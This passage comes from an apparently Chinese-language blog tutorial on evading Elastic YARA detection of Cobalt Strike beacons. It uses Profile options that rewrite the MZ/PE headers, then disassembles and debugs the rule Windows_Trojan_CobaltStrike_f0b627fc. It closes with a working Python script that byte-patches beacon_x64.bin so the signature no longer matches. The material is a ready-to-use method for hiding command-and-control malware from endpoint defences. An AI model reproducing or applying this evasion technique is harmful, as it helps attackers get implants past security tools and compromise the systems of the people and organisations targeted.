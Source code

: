 

设置此选项后将使beacon不再被检测到 `Windows_Trojan_CobaltStrike_1787eef5`	

![img](利用CS的Profile文件实现免杀/image-5-1024x113.png)



通过查看原始shellcode，我们可以发现MZ头和PE头都被修改成设置的选项值了

<img src="利用CS的Profile文件实现免杀/image-20231015212504671.png" alt="image-20231015212504671" style="zoom:67%;" />		



## 动态调试修改硬编码

接下来让我们绕过最后一个规则`Windows_Trojan_CobaltStrike_f0b627fc`，其对应的匹配字节是：`$beacon_loader_x64 = { 25 FF FF FF 00 3D 41 41 41 00 75 [5-10] 25 FF FF FF 00 3D 42 42 42 00 75 }`

我们可以确认该规则也确实存在于shellcode中

![image-20231015115317084](利用CS的Profile文件实现免杀/image-20231015115317084.png)	



对规则的硬编码进行反汇编，我们得到以下结果：

```
25 FF FF FF 00       and    eax,0xffffff
3D 41 41 41 00       cmp    eax,0x414141
75 ??                jne    <relative offset based on next byte, range could be 5-10 bytes>
25 FF FF FF 00       and    eax,0xffffff
3D 42 42 42 00       cmp    eax,0x424242
75 ??                jne    <relative offset based on next byte>
```



将shellcode放到x64debug去调试，并定位至规则所在地址。在下图可以看到，经过jne指令时，因为ZF位被设置为1，所以不会进行跳转，而ZF位的值是由`cmp eax, 414141`所决定的。简单来说当eax的值为414141时，jne指令就不会发生跳转

![动画](利用CS的Profile文件实现免杀/动画.gif)



我们将指令`and eax,0xFFFFFF`更改为`mov eax, 0x414141`，可以发现jne指令仍然不会发生跳转，这是因为这两条指令的作用几乎是相同的

![动画](利用CS的Profile文件实现免杀/动画-16973589033062.gif)



我们可使用以下python代码来实现字节替换

```python
def replace_bytes(input_filename, output_filename):
    search_bytes      = b"\x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00"
    replacement_bytes = b"\xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00"
  
    with open(input_filename, "rb") as input_file:
        content = input_file.read()
        modified_content = content.replace(search_bytes, replacement_bytes)
    
    with open(output_filename, "wb") as output_file:
        output_file.write(modified_content)
    
    print(f"Modified content saved to {output_filename}.")

# Example usage
input_filename = "beacon_x64.bin"
output_filename = "output.bin"
replace_bytes(input_filename, output_filename)
```
